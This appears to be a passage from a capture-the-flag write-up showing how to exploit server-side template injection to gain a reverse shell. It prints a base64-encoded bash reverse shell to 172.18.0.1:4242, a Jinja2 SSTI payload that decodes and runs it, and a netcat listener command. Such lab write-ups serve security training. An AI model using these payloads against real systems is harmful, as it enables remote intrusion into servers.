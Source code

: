 - exploit SSTI to gain access to the machine

```
# create payload

$ echo "bash -i >& /dev/tcp/172.18.0.1/4242 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTguMC4xLzQyNDIgMD4mMQo=
```

![CyberChef Decryption](./writeup-images/25.png)

```
# form payload

api={{config.__class__.__init__.__globals__['os'].popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTguMC4xLzQyNDIgMD4mMQo= | base64 -d | bash').read()}}
```

- start a `netcat listener` and send the malicious request to get a reverse shell as `www-data`

```
$ nc -nlvp 4242
```

![CyberChef Decryption](./writeup-images/26.png)
